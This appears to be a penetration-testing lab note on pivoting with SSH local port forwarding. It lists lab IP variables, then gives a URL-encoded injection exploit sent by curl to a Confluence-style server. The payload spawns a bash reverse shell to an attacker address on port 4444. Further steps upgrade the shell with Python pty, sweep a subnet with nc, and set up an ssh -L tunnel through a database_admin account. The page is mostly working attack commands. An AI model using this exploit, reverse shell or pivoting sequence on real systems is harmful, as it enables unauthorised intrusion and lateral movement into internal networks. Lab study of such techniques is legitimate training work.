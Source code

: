 ```yaml
---
IP_KALI: 
IP_CONFLUENCE: 192.168.227.63
PORT_KALI-CONF: "4141"
IP_PGDATABASE: 10.4.227.215
PORT_CONF-PGDB: "5432"
IP_SHARES: 172.16.236.217
PORT_PGDB-SHARES: "4242"
USER: database_admin
---
```

![[5cb05d0b66c698cf990c278940c231ca-PRAT2_2_1_SSHLocalPortForwardingWithCommand 2.png]]



```
curl http://192.168.236.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.209/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```   

Check network interfaces:
```
ip addr
```

Check routes:
```
ip route
```

Spawn shell w Python:
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Sweep for hosts with open port:
- for i in \$(seq 1 254); do nc -zv -w 1 172.16.50.$i <span id="PORT_PGDB-SHARES"/>4242<span type="end"/>; done

Setup port forward:
- ssh -N -L 0.0.0.0:<span id="PORT_KALI-CONF"/>4141<span type="end"/>:<span id="IP_SHARES"/>172.16.236.217<span type="end"/>:<span id="PORT_PGDB-SHARES"/>4242<span type="end"/> <span id="USER"/>database_admin<span type="end"/>@<span id="IP_PGDATABASE"/>10.4.227.215<span type="end"/>

Check connection:
- ss -ntplu